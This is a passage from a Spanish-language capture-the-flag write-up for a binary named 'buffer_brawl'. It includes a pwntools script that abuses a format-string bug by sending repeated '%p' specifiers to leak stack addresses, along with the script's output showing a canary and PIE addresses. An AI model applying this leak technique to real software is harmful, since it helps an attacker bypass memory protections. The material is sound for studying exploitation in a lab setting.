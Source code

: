 El parámetro %p en una cadena de formato se utiliza para imprimir una dirección de memoria en formato hexadecimal, con varias podemos imprimir las direcciones de memoria en la pila.

Con este script filtramos las primeras 12 direcciones de memoria del stack y formateamos un poco la salida:

``` python
#leakstack.py
from pwn import *

elf = context.binary = ELF('./buffer_brawl')

io = process('./buffer_brawl')
io.sendline(b"4")
io.recvuntil(b"Right or left?\n")
io.sendline(b"%p"*14)
stack = io.recvline(keepends=False)
stack = [ 
         int(s,16) for s in stack.replace(b"(nil)",b"0x0").replace(b"0x",b" ").split()
         ]
print(stack)

for i, s in enumerate(stack):
    # i+1 because $ offsets start at 1
    print(f"{i+1}: {p64(s)} {hex(s)}") 
```

```
python3 leakstack.py 
[*] '/home/kalcast/Descargas/buffer_brawl'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[+] Starting local process './buffer_brawl': pid 6996
[140732999497680, 29, 140658260300893, 0, 0, 8080988412483825701, 8080988412483825701, 8080988412483825701, 94602831163429, 94888781943153, 7242369383397573120, 94888781944032, 94888781940551, 36]
1: b'\xd0wq\xf4\xfe\x7f\x00\x00' 0x7ffef47177d0
2: b'\x1d\x00\x00\x00\x00\x00\x00\x00' 0x1d
3: b']\xd4\xa3\x8d\xed\x7f\x00\x00' 0x7fed8da3d45d
4: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
5: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
6: b'%p%p%p%p' 0x7025702570257025
7: b'%p%p%p%p' 0x7025702570257025
8: b'%p%p%p%p' 0x7025702570257025
9: b'%p%p\nV\x00\x00' 0x560a70257025
10: b'q\x11$\x04MV\x00\x00' 0x564d04241171
11: b'\x00\xc2\x93\x1d\x95\x10\x82d' 0x648210951d93c200
12: b'\xe0\x14$\x04MV\x00\x00' 0x564d042414e0
13: b'G\x07$\x04MV\x00\x00' 0x564d04240747
14: b'$\x00\x00\x00\x00\x00\x00\x00' 0x24
[*] Stopped process './buffer_brawl' (pid 6996)
```
